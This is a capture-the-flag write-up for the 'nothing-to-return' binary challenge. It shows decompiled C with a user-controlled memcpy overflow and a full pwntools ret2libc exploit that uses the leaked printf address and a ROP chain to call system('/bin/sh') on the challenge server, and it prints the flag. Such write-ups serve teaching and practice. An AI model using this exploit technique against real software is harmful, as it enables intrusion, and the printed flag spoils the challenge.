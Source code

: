 # nothing-to-return
Now this challenge has a binary of a very small size.

"The binary has no useful gadgets! There is just nothing to return to!"

nice try... ntr

Author: drec

nc 34.30.126.104 5000

| [nothing-to-return](/nothing-to-return) | [libc.so.6](/libc.so.6) | [ld-linux-x86-64.so.2](/ld-linux-x86-64.so.2) |

## Approach
Taking a look at the decompiled binary.

### main
```
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char local_48 [64];
  
  init(param_1);
  printf("printf is at %p\n",printf);
  puts("Hello give me an input");
  get_input(local_48);
  puts("I\'m returning the input:");
  puts(local_48);
  return 0;
}
```
### get_input
```
void get_input(void *param_1)

{
  size_t size;
  char *local_10;
  
  puts("Input size:");
  __isoc99_scanf("%lu[^\n]",&size);
  local_10 = (char *)calloc(1,size);
  fgets(local_10,(int)size,stdin);
  puts("Enter your input:");
  fgets(local_10,(int)size,stdin);
  memcpy(param_1,local_10,size);
  free(local_10);
  return;
}
```
No win function, but here we can use a `ret2libc` attack. So basically we need to call `system` function within the libc that is provided with the argument `/bin/sh` to pop a shell.

## Exploit
```
#!/usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './nothing-to-return'
elf = context.binary = ELF(exe, checksec=True)
libc = 'libc.so.6'
ld = 'ld-linux-x86-64.so.2'
libc = ELF(libc, checksec=True)
context.log_level = 'debug'
host, port = '34.30.126.104', 5000

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *main+108
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    io = initialize()
    
    # gather info
    ret = 0x40101a
    io.recvuntil(b'at ')
    printf_addr = io.recvuntil(b'\n').strip()
    printf_addr = int(printf_addr, 16)

    libc.address = printf_addr - libc.sym['printf']

    # setting fgets input size
    io.sendlineafter(b':', b'500')

    # setting up the payload
    system = libc.sym['system']
    binsh = next(libc.search(b'/bin/sh'))

    pop_rdi = 0x28265 + libc.address

    # summarizing
    log.success("Print addr: %#x", printf_addr)
    log.success("Libc base addr: %#x", libc.address)
    log.success("System addr: %#x", system)
    log.success("/bin/sh addr: %#x", binsh)
    log.success("pop rdi addr: %#x", pop_rdi)

    # sending payload
    offset = 72
    payload = flat({
        offset: [
            pop_rdi,
            binsh,
            ret,
            system
        ]
    })

    io.sendlineafter(b':', payload)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```

## Flag
```
uoftctf{you_can_always_return}
```